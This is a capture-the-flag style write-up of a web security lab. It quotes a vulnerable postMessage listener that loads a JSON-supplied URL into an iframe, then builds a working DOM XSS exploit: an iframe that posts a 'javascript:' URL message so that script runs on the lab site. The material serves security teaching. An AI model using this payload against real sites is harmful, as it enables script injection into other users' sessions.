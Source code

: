 This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 

```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```
This script listens for **postMessage** events and processes the received data as a JSON object. The vulnerability lies in how it handles the "load-channel" case.
Here, the **d.url** value is directly assigned to iframe.src

Send a **postMessage** containing:
```json
{
    "type": "load-channel",
    "url": "javascript:alert(1)"
}
```
**postMessage:**
```js
this.contentWindow.postMessage('{"type": "load-channel","url": "javascript:alert(1)"}')
```
**Exploit script**
```html
<iframe src=https://0ab8008603ed846a800876a9008f0023.web-security-academy.net/ onload='this.contentWindow.postMessage("postmessage-here","*")'>
```
Final script:
```html
<iframe src=https://0ab8008603ed846a800876a9008f0023.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```
To accurate adding `\` [here](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'%22'%7D,'%5C%5C%20%22',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'%20'%7D,'',true,false,true,false)&input=eyJ0eXBlIjogImxvYWQtY2hhbm5lbCIsInVybCI6ICJqYXZhc2NyaXB0OmFsZXJ0KDEpIn0)
